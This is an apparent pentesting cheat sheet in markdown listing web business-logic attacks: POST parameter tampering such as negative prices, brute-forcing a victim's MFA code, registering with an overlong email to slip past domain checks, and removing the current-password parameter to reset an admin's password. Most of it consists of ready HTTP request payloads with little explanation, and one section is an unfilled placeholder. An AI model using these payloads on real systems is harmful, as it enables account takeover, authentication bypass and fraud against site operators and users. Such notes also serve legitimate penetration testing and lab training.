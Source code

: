 ```yaml
---
title: Business Logic Attack
desc: 
tags: [Burp, Business, Logic, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change POST Params to Unexpected Values

```sh
productId=-1
productId=a
productId=1&price=-1000
```

<br />

## 2. Exploit Broken Two-Factor

1. **Brute force a MFA Code**

    ```html
    POST /login HTTP/1.1
    Cookie: verify=victim
    ...

    <!-- Brute force digits code -->
    mfa-code=1111
    ```

<br />

## 3. Loop Back with 2,147,483,647

Coming soon.

<br />

## 4. Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## 5. Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```